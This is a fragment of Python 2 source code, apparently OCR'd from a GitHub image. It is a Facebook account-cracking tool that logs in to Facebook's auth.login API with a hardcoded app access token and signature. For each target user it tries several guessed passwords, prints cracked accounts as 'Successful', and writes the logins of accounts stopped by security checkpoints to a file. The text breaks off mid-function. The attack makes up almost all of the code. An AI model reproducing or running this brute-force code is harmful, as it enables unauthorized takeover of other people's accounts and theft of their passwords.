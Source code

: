 			
	def main(arg):
		global cpb,oks
		user = arg
		try:
		    os.mkdir('save')
		except OSError:
		    pass
		try:
			a = requests.get("https://graph.facebook.com/"+user+"/?access_token="+toket)
			b = json.loads(a.text)
			
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass1 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if "access_token" in q:
				print '\x1b[1;96m[\x1b[1;96mSuccessful\x1b[1;96m]\x1b[1;96m ' + user + ' \x1b[1;96m|\x1b[1;96m ' + pass1
				oks.append(user+pass1)
			else:
				if "www.facebook.com" in q["error_msg"]:
					print '\x1b[1;91m[\x1b[1;91mCheckpoint\x1b[1;91m]\x1b[1;91m ' + user + ' \x1b[1;91m|\x1b[1;91m ' + pass1
					crt = open("save/checkpoint.txt", "a")
					crt.write(user+"|"+pass1+"\n")
					crt.close()
					checkpoint.append(user+pass1)
				else:
					
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass2 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if "access_token" in q:
						print '\x1b[1;96m[\x1b[1;96mSuccessful\x1b[1;96m]\x1b[1;96m ' + user + ' \x1b[1;96m|\x1b[1;96m ' + pass2
						oks.append(user+pass2)
					else:
						if "www.facebook.com" in q["error_msg"]:
							print '\x1b[1;91m[\x1b[1;91mCheckpoint\x1b[1;91m]\x1b[1;91m ' + user + ' \x1b[1;91m|\x1b[1;91m ' + pass2
							crt = open("save/checkpoint.txt", "a")
							crt.write(user+"|"+pass2+"\n")
							crt.close()
							checkpoint.append(user+pass2)
						else:
							
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass3 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if "access_token" in q:
								print '\x1b[1;96m[\x1b[1;96mSuccessful\x1b[1;96m]\x1b[1;96m ' + user + ' \x1b[1;96m|\x1b[1;96m ' + pass3
								oks.append(user+pass3)
							else:
								if "www.facebook.com" in q["error_msg"]:
									print '\x1b[1;91m[\x1b[1;91mCheckpoint\x1b[1;91m]\x1b[1;91m ' + user + ' \x1b[1;91m|\x1b[1;91m ' + pass3
									crt = open("save/checkpoint.txt", "a")
									crt.write(user+"|"+pass3+"\n")
									crt.close()
									checkpoint.append(user+pass3)
								else:
									